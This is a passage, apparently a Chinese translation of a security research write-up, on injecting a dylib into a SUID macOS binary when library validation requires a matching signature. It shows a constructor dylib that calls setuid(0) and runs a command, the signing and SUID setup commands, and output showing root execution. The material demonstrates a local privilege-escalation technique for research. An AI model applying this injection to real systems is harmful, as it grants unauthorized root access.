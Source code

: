 然而如果设置了CS_REQUIRE_LV标志，我们也可以将dylib注入SUID文件中（实际上也可能注入带有CS_RUNTIME标志的文件）。虽然要求dylib使用相同的签名，但这里存在一个潜在的权限提升场景。为了演示方便，我修改了一下dylib：

```
#include &lt;stdio.h&gt;
#include &lt;syslog.h&gt;
#include &lt;stdlib.h&gt;

__attribute__((constructor))
static void customConstructor(int argc, const char **argv)
 `{`
    setuid(0);
    system("id");
    printf("Hello from dylib!\n");
    syslog(LOG_ERR, "Dylib injection successful in %s\n", argv[0]);
`}`
```

执行签名操作，使用相同的证书签名测试程序，对测试程序设置SUID位然后运行。这里可以看到我们能注入dylib，并且能够以root身份运行。

```
gcc -dynamiclib inject.c -o inject.dylib
codesign -f -s "Mac Developer: fitzl.csaba@gmail.com (M9UN3Y3UDG)" inject.dylib
codesign -f -s "Mac Developer: fitzl.csaba@gmail.com (M9UN3Y3UDG)" -o library test
sudo chown root test
sudo chmod +s test

ls -l test
-rwsr-sr-x  1 root  staff  26912 Jul  9 14:01 test

codesign -dvvv test
Executable=/Users/csaby/Downloads/test
Identifier=test
Format=Mach-O thin (x86_64)
CodeDirectory v=20200 size=228 flags=0x2000(library-validation) hashes=3+2 location=embedded
Hash type=sha256 size=32
CandidateCDHash sha256=7d06a7229cbc476270e455cb3ef88bdddf109f12
Hash choices=sha256
CDHash=7d06a7229cbc476270e455cb3ef88bdddf109f12
Signature size=4703
Authority=Mac Developer: fitzl.csaba@gmail.com (M9UN3Y3UDG)
Authority=Apple Worldwide Developer Relations Certification Authority
Authority=Apple Root CA
Signed Time=2019. Jul 9. 14:01:03
Info.plist=not bound
TeamIdentifier=E7Q33VUH49
Sealed Resources=none
Internal requirements count=1 size=172

./test 
uid=0(root) gid=0(wheel) egid=20(staff) groups=0(wheel),1(daemon),2(kmem),3(sys),4(tty),5(operator),8(procview),9(procmod),12(everyone),20(staff),29(certusers),61(localaccounts),80(admin),702(com.apple.sharepoint.group.2),701(com.apple.sharepoint.group.1),33(_appstore),98(_lpadmin),100(_lpoperator),204(_developer),250(_analyticsusers),395(com.apple.access_ftp),398(com.apple.access_screensharing),399(com.apple.access_ssh)
Hello from dylib!
Hello world
```
